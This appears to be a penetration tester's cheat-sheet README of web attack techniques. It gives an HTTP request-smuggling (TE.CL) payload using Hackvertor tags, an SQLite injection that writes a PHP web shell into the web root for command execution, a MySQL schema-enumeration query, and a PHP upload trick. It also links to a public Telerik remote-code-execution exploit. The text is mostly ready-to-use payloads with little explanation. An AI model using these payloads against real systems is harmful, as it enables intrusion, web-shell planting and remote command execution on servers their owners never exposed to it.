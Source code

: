  ### Request Smuggling  
 TE.CL + Hackvertor  
 *(disable “Update Content-Length” in Repeater && “Auto Update Content Length” in Hackvertor Settings)*  
 ```
 POST / HTTP/1.1
Host: abc.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

<@chunked_dec2hex_4><@get_var_3 /><@/chunked_dec2hex_4>
<@set_var_1><@length_2>GPOST / HTTP/1.1
Host: abc.com
Content-Length: 15

x=1<@/length_2><@/set_var_1>
0
```
 ### Hackvertor  
 JSON escape:
```xml
 <@python_4("import json;output = json.dumps(input)","7d808063a7c69f9dad4f4a3cb1c2bd1a")>test123'<>"<@/python_4>
 Result: "test123'<>\""
```
### SQL Injection
#### SQLite  
Connect:  
`$ sqlite3 test.db`  

Command execution:  
```sql
ATTACH DATABASE '/var/www/html/y.php' AS y;--
CREATE TABLE y.p (dataz text);--
INSERT INTO y.p (dataz) VALUES ('<? system($_GET[''cmd'']);?>');--
```  
#### Alternatives to information_schema table (MySQL)
```sql
SELECT * FROM sys.x$schema_flattened_keys;
```
Blind SQL Injection without _in_:  
https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952  
### PHP
### finfo with specific comment
```php
// After Upload:
echo (new finfo)->file($_FILES["fileToUpload"]["tmp_name"]);
//Rendered:
JPEG image data, JFIF standard 1.02, aspect ratio, density 1x1, segment length 16, comment: "AAAAAAAAAAAAAAAAAA"
/*
Uploaded file:
$ cat test1234.txt | base64
/9j/4AAQSkZJRgABAgAAAQABAAD//kFBQUFBQUFBQUFBQUFBQUFBQUFB
*/
```
### ASP.NET
 - RCE Telerik https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui?utm_campaign=190101_Posts_Blog&utm_source=Caleb%20-%20Github
 - https://github.com/noperator/CVE-2019-18935